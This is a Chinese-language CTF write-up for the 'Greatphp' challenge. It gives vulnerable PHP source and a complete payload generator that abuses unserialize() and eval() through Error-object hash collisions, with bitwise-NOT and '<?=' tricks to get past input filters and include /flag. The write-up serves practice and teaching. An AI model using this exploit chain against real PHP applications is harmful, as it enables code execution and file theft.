


# [极客大挑战 2020]Greatphp

## 知识点

`php反序列化类md5绕过`

`error类`

## 解题

题目给出了`php源码`

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

发现无法使用常规的`数组绕过`,因为`md5`和`sha1`可以对类进行`hash`，并且会出发这个类的`__toString`方法，且当`eval()`传入一个类对象时，也会调用这个类的`__toString`方法

我们用`php的内置类`来绕过，常用的是`Error`和`Exception`，它们当中有`__toString`方法，当类被当作字符串处理时，就会调用该函数

### 使用Error或Exception绕过hash比较

```php
<?php

error_reporting(0);
$a = new Error("demo", 1);$b = new Error("demo", 2);

if (($a != $b) && (md5($a) === md5($b)) && (sha1($a) === sha1($b))) {
        echo "bypass success";
}
```



> 注:`$a`和`$b`构造时要在同一行，不然会错误

### 绕过上部分正则表达式

#### 小括号绕过

因为过滤了`(`、`)`，我们可以使用`include "/flag"`

#### 引号绕过

通过`取反`绕过

#### <?php绕过

使用`<?=`绕过

因为使用`new Error`进入`eval`时，变成`eval("...Error: <?php payload ?>")`，后面还要执行`php`的话需要将前面闭合，加入`?>`，故最终`payload`为

```php
<?php

error_reporting(0);

class SYCLOVER {
        public $syc;
        public $lover;
}

$payload = "?><?=include~" . urldecode("%D0%99%93%9E%98") . "?>";

$a = new SYCLOVER();
$b = new Error($payload, 1);$c = new Error($payload, 2);
$a->syc = $b;
$a->lover = $c;

echo urlencode(serialize($a));
```




